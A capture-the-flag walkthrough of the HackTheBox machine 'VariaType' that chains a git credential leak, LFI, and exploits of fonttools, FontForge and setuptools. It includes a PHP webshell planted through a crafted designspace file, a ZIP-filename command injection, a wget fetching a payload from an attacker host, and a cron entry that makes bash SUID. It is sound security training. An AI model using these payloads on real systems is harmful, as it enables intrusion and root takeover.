





# VariaType — HackTheBox Medium Walkthrough

VariaType is a Linux medium that chains three real-world CVEs across font-processing tools to go from zero to root. What makes it compelling isn't any single trick — it's the discipline required to identify each vulnerability, understand *why* the sanitization fails, and stitch them together into a coherent attack path.

---

## Overview

The box hosts a Flask-based variable font generator backed by `fonttools`, alongside a PHP validation portal with an exposed `.git` directory. The attack chain: dump git history for credentials → LFI to read source → exploit CVE-2025-66034 in `fonttools varLib` for a webshell → abuse CVE-2024-25082 in FontForge for lateral movement → leverage CVE-2025-47273 in `setuptools` for a cron-based root.

---

<div id="protected-marker"></div>

## Reconnaissance

### Port Scan

Starting with the standard nmap service scan:



Two ports: SSH and HTTP. The HTTP redirect tells us the box uses virtual-host routing, so we add `variatype.htb` to `/etc/hosts` and start enumerating from there.

### Web Enumeration

The main site at `variatype.htb` is a Flask application built around variable font generation. The interesting endpoint is `/tools/variable-font-generator`, which accepts a `.designspace` XML file plus master font files (`.ttf`/`.otf`) and passes them to `fonttools varLib` via `subprocess.run()` on the server. Generated fonts land in the portal's `/files/` directory and are served via `/download/<id>`.

The Flask app alone doesn't immediately offer much — it takes input and spits out fonts. Time to look for other attack surface. Running `ffuf` for virtual host enumeration turns up `portal.variatype.htb`:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
     -u http://variatype.htb/ \
     -H "Host: FUZZ.variatype.htb" \
     -fc 301
```

Adding `portal.variatype.htb` to `/etc/hosts` and browsing to it reveals a PHP internal validation portal — a login page. Two things jump out immediately: the login form and a `.git` directory sitting in the web root.

### Git History Credential Leak

A `.git` directory exposed over HTTP is almost always worth dumping. I used `git-dumper` to pull the entire repository:

```bash
git-dumper http://portal.variatype.htb/.git ./portal-git
cd portal-git
git log --oneline
```



The current HEAD has `$USERS = []` — production credential store is empty. But commit `753b5f5` tells a different story. Checking that commit:

```bash
git show 753b5f5
```

```php
$USERS = [
    'gitbot' => 'G1tB0t_Acc3ss_2025!'
];
```

Classic case of "we removed the credentials from the codebase but forgot they live in git history forever." Logging in as `gitbot:G1tB0t_Acc3ss_2025!` gets us into the dashboard, which lists all generated fonts — the shared `/files/` directory linking the two applications.

---

## Foothold

### LFI via `....//` Path Traversal Bypass

The portal's `download.php` has a `?f=` parameter. Looking at the PHP source (we'll read it shortly via LFI), the sanitization looks like:

```php
$file = str_replace("../", "", $_GET['f']);
```

This is a single-pass replacement — a well-known bypass. The string `....//` contains `../` starting at position 2, so stripping it once leaves `../`. Stack four or five of these to break out of the web root:

```bash
curl -s -b cookies.txt \
  "http://portal.variatype.htb/download.php?f=....//....//....//....//....//etc/passwd"
```



Using the same trick, we read the Flask application source at `/opt/variatype/app.py`. This confirms the exact `subprocess.run()` call:

```python
subprocess.run(['fonttools', 'varLib', 'config.designspace'], cwd=workdir)
```

The `cwd` is a temp directory under `/tmp/variatype_uploads/<tmpdir>/` and the output font path is controlled by the `<variable-font filename="...">` attribute in the `.designspace` XML. That's our next attack surface.

Always validate assumptions by reading source when you can — this LFI just saved us significant guesswork about how `varLib` is invoked. The `str_replace("../", "")` bypass is a classic mistake; we covered a similar single-pass sanitization failure in [Browsed](/writeups/machines/browsed/).

### CVE-2025-66034 — fonttools varLib Arbitrary File Write

`fonttools varLib` version 4.38.0 (shipped on Debian 12) uses the `filename` attribute of `<variable-font>` nodes directly as the output path when called via the CLI. There's no `os.path.basename()` normalization — that fix came later. This means we can write the output font to an arbitrary path.

The trick is turning a font file into a PHP webshell. PHP's execution model is wonderfully permissive: it will execute `<?php ... ?>` tags regardless of surrounding binary content. We just need to embed our PHP payload somewhere in the font data that gets written to disk. The `.designspace` `<labelname>` field accepts CDATA, and fonttools faithfully copies string data from designspace metadata into the output binary.

Here's the crafted `.designspace` file:

```xml
<designspace format="5.0">
  <axes>
    <axis tag="wght" name="Weight" minimum="400" default="400" maximum="700">
      <labelname xml:lang="en"><![CDATA[<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>]]></labelname>
    </axis>
  </axes>
  <sources>
    <source filename="Regular.ttf" familyname="Shell" stylename="Regular">
      <location><dimension name="Weight" xvalue="400"/></location>
    </source>
    <source filename="Bold.ttf" familyname="Shell" stylename="Bold">
      <location><dimension name="Weight" xvalue="700"/></location>
    </source>
  </sources>
  <variable-fonts>
    <variable-font name="Shell"
      filename="../../../var/www/portal.variatype.htb/public/cmd.php">
      <axis-subsets><axis-subset name="Weight"/></axis-subsets>
    </variable-font>
  </variable-fonts>
</designspace>
```

The `filename` traverses up from the temp working directory back to the portal's web root. Upload this via the font generator along with two minimal TTF files, and `fonttools varLib` writes the output — a binary TTF containing our PHP payload somewhere in its metadata — directly to `cmd.php` in the portal web root.

PHP-FPM doesn't care about the binary content surrounding the `<?php` tag. The webshell executes:

```bash
curl "http://portal.variatype.htb/cmd.php?cmd=id"
```



We have code execution as `www-data`. I dropped a cleaner webshell next using base64 to avoid output parsing issues with the binary TTF wrapper, then moved on to lateral movement.

---

## Lateral Movement — www-data → steve

### CVE-2024-25082 — FontForge Command Injection via ZIP Internal Filenames

With the webshell, enumerating the filesystem turns up something interesting:

```bash
curl "http://portal.variatype.htb/cmd.php?cmd=ls+-la+/opt/"
```

There's `/opt/process_client_submissions.bak` owned by `steve`. The active version lives at `/home/steve/bin/process_client_submissions.sh` and runs on a cron schedule as `steve`. Reading the backup gives us the full script logic: it loops over files in the shared `/files/` directory and processes them with FontForge. For ZIP files specifically, FontForge's `Unarchive()` function is called, which internally passes the ZIP's member filename to `system()` for extraction.

Here's the vulnerable pattern in the script:

```bash
fontforge -lang=py -c "import fontforge; fontforge.open('$file')" 2>/dev/null
```

The outer filename (the ZIP itself) is validated against `^[a-zA-Z0-9._-]+$` — safe characters only. But FontForge 20230101 passes the **internal** filename within the ZIP archive directly to `system()` without any sanitization. We control that internal filename entirely.

The exploit: create a ZIP with a benign outer name that passes the regex, but an internal filename containing a shell command injection payload:

```python
import zipfile

pubkey = "ssh-ed25519 AAAA...your-key-here... kali@kali"
cmd = (
    f"mkdir -p /home/steve/.ssh && "
    f"echo '{pubkey}' >> /home/steve/.ssh/authorized_keys && "
    f"chmod 700 /home/steve/.ssh && "
    f"chmod 600 /home/steve/.ssh/authorized_keys"
)
internal_name = f"x.sfd;{cmd};#"

with zipfile.ZipFile('fontcheck.zip', 'w') as zf:
    zf.writestr(internal_name, b"SplineFontDB: 3.0\n")
```

The internal name `x.sfd;{cmd};#` uses semicolons as command separators and a trailing `#` to comment out anything FontForge might append. Drop `fontcheck.zip` into the shared `/files/` directory via the webshell:

```bash
curl "http://portal.variatype.htb/cmd.php?cmd=wget+http://<VPN_IP>:8000/fontcheck.zip+-O+/var/www/portal.variatype.htb/public/files/fontcheck.zip"
```

Wait for the cron job to fire, then SSH in with our injected key:

```bash
ssh -i /tmp/variatype_key steve@<TARGET>
```

The user flag is waiting in `/home/steve/user.txt`.

---

## Privilege Escalation — steve → root

### CVE-2025-47273 — setuptools PackageIndex Path Traversal

Checking `sudo` permissions as `steve`:

```bash
sudo -l
```

```
(root) NOPASSWD: /usr/bin/python3 /opt/font-tools/install_validator.py *
```

The script takes a URL argument and downloads it to a plugin directory using `setuptools.package_index.PackageIndex.download(url, PLUGIN_DIR)`. The installed setuptools version is 78.1.0 — the last vulnerable release before the path traversal fix.

Here's the vulnerability chain inside `PackageIndex.download()`:

1. The URL is split on `/` and the last component is taken as the filename: `%2fetc%2fcron.d%2fpwn`
2. That component is URL-decoded: `/etc/cron.d/pwn` (an absolute path)
3. `os.path.join(PLUGIN_DIR, '/etc/cron.d/pwn')` is called — in Python, `os.path.join()` discards all previous components when it encounters an absolute path segment, so the result is just `/etc/cron.d/pwn`
4. The file is written to `/etc/cron.d/pwn` as root

The `os.path.join()` behavior with absolute paths is a frequent gotcha. We exploited a similar `os.path.join()` trust issue for file writes in [Facts](/writeups/season10/facts/).

Setting up the exploit: host a file containing a cron entry that makes `/bin/bash` SUID:

```bash
# On attacker machine
echo '* * * * * root chmod 4755 /bin/bash' > pwn
python3 -m http.server 8888
```

Trigger the download as root:

```bash
sudo /usr/bin/python3 /opt/font-tools/install_validator.py \
  'http://<VPN_IP>:8888/%2fetc%2fcron.d%2fpwn'
```



Wait up to 60 seconds for cron to execute the entry, then:

```bash
/bin/bash -p -c 'whoami'
```

```
root
```

Root flag is at `/root/root.txt`.

---

## Lessons Learned

**Vhost enumeration is not optional.** The Flask app alone was a dead end. Everything interesting flowed from discovering `portal.variatype.htb` — without that, there's no git dump, no LFI, no webshell path. Always enumerate virtual hosts before concluding a web application has limited surface.

**Git history is permanent credential storage.** The current HEAD had `$USERS = []`, which would fool a cursory review. One `git log --oneline` and a `git show` later, we had working credentials. If secrets ever touched a commit, assume they're compromised.

**`str_replace("../", "")` is not a security control.** Single-pass replacement is trivially bypassed with `....//`. The correct approach is `realpath()` followed by a prefix check against the intended base directory.

**CVE-2025-66034 (fonttools varLib):** The `<variable-font filename>` attribute in `.designspace` is used unsanitized as the output file path when calling the CLI. The PHP polyglot technique works because PHP will execute `<?php` tags embedded anywhere in a binary file — font metadata is a valid carrier.

**CVE-2024-25082 (FontForge):** External validation of the archive's outer filename doesn't protect against injection via internal member names. If a tool calls `system()` with archive member names, the entire archive contents are an injection surface.

**CVE-2025-47273 (setuptools PackageIndex):** URL-encoding path separators (`%2f`) survives the URL component split, then decodes to an absolute path before being passed to `os.path.join()`. Python's `os.path.join()` discards earlier path components when it encounters an absolute segment — behavior that's documented but easy to forget when writing security-sensitive code.

**The meta-lesson:** All three vulnerabilities share the same root cause — trusting attacker-controlled strings as safe after partial sanitization. Whether it's a single-pass `str_replace`, a filename validation that only checks the outer container, or a URL component split that happens before URL-decoding, each sanitization step creates a false sense of security. Defense in depth means validating the *final interpreted value*, not an intermediate representation.
